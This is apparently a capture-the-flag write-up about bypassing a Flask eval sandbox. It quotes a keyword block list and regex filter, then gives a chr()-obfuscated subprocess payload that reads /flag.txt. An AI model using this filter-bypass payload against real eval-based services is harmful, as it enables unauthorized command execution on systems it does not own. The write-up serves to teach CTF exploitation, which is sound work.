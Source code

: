 # 1. Analysis
![](Pasted%20image%2020250522092228.png)

interesting comments
```

TODO
------------
Secure python_flask eval execution by 

1.blocking malcious keyword like os,eval,exec,bind,connect,python,socket,ls,cat,shell,bind

2.Implementing regex: r'0x[0-9A-Fa-f]+|\\u[0-9A-Fa-f]{4}|%[0-9A-Fa-f]{2}|\.[A-Za-z0-9]{1,3}\b|[\\\/]|\.\.'

```

if we input malicious keyword, the server will banned
![](Pasted%20image%2020250522101257.png)

base on that comment, we have to craft a payload that bypassed that rules

lets use chatgpt to get explanation of that regex
![](Pasted%20image%2020250522104243.png)
example
![](Pasted%20image%2020250522104347.png)

It means we need to use functions other than `os`, `eval`, `exec`, `bind`, `connect`, `python`, `socket`, `ls`, `cat`, and `shell`, and we should also use obfuscation techniques not covered by the patterns in that regex.
# 2. Exploitation
after surf on the internet, i found alternative function like
```
import(‘subprocess’)
check_output() using getattr()
obfuscate using chr()
```

this is the final payload
```
from this..
getattr(__import__('subprocess'), 'check_output')(['cat', '/flag.txt']) 


to be..
getattr(__import__('subprocess'), 'check_output')([chr(99)+chr(97)+chr(116), chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)])
```

![](Pasted%20image%2020250522103734.png)
# 3. Conclussion
Hurray! You solved this challenge.

Knowledge need to know:
- Obfuscation
- Flask alternative function

